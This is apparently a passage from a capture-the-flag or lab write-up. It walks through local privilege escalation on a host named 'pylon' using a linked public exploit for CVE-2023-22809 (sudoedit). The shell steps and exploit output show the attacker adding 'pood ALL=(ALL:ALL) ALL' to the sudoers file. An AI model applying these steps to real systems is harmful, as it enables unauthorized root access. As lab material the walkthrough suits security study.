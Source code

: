 ```bash 
pood@pylon:/home/lone$ cd /tmp
```

<p>

- https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh</p>

```bash 
pood@pylon:/tmp$ nano exploit.sh
```

```bash 
pood@pylon:/tmp$ chmod +x exploit.sh
```

<p>

- pood ALL=(ALL:ALL) ALL<br>
- ENTER</p>

```bash 
pood@pylon:/tmp$ ./exploit.sh
> BINGO! User exploitable
> Opening sudoers file, please add the following line to the file in order to do the privesc:
pood ALL=(ALL:ALL) ALL
Press any key to continue...
```

<br>
<br>

<img width="978" height="99" alt="image" src="https://github.com/user-attachments/assets/5c1994ff-56c4-4226-8e67-0ccead0d1947" />

<br>
<br>
<p>

- ENTER</p>


<img width="1015" height="742" alt="image" src="https://github.com/user-attachments/assets/e3eb9d2d-28e6-448a-92a8-05c8951bc72e" />

<br>
<br>
<p>

- added <strong>pood ALL=(ALL:ALL) ALL</strong></p>

<img width="1011" height="739" alt="image" src="https://github.com/user-attachments/assets/1f2e76f7-dbed-4a48-a258-25f102395bc8" />

<br>
<br>
<p>

- :wq</p>

<img width="1015" height="659" alt="image" src="https://github.com/user-attachments/assets/7bbcbdac-d8db-4cef-b051-f2151a354b22" />
